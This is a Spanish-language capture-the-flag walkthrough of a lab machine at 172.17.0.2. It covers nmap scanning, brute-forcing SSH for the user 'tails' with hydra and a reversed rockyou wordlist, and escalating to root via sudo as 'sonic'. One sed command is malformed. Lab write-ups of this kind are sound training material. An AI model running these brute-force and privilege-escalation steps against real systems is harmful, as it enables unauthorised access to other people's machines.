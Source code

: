 `ping 172.17.0.2`
#### hacemos un ping para comprobar si la maquina esta prendida
[![ping.png](https://i.postimg.cc/vH0MWKQc/ping.png)](https://postimg.cc/0bKLvcKs)

`nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2`
#### usamos Nmap para descubrir si tiene puertos abiertos
[![nmap.png](https://i.postimg.cc/rwbkHtRT/nmap.png)](https://postimg.cc/k2xz6GyY)
vemos que esta abierto el puerto 22 version 9.6 que es una version no vulnerable y vemos el puerto 80 un apache

#### esto corre por el 80:
[![web.png](https://i.postimg.cc/8c1QvR9R/web.png)](https://postimg.cc/JDd2Vk10)
encontramos lo que parece ser un usuario "tails"

`hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
#### usamos hydra para tratar de encontrar la contraseña 
[![hydra.png](https://i.postimg.cc/43DXYhXP/hydra.png)](https://postimg.cc/f3fGFytS)
vemos que tarda demasiado entonces podemos usar tac para invertir el diccionario y comenzar desde el final

`tac /usr/share/wordlists/rockyou.txt >> dicinv.txt`

esto es para eliminar los espacios en blanco
`sed - 's/ //g' dicinv`
#### ahora si probamos de nuevo
[![hydrainv.png](https://i.postimg.cc/GpyCnhvy/hydrainv.png)](https://postimg.cc/kVqZxC1J)

vemos el usuario y la contraseña ahora probamos las crenciales

`ssh tails@172.17.0.2`
#### entramos con las credenciales
[![ssh.png](https://i.postimg.cc/nzKfMRRV/ssh.png)](https://postimg.cc/9RfnnpHs)

`sudo -l`
#### lo usamos para ver que permisos tenemos
[![sudo-l.png](https://i.postimg.cc/XJ60jSgD/sudo-l.png)](https://postimg.cc/sBmLmLqp)

vemos que sonic tiene permiso para todo asi que nos volvemos sonic

`sudo -u sonic bash`
#### nos volvemos sonic
[![sonic.png](https://i.postimg.cc/pLyvkBTk/sonic.png)](https://postimg.cc/zym4GKTR)

#### ahora nos hacemos root
`sudo su`

[![root.png](https://i.postimg.cc/WbNTqVcB/root.png)](https://postimg.cc/3WcPzPR1)

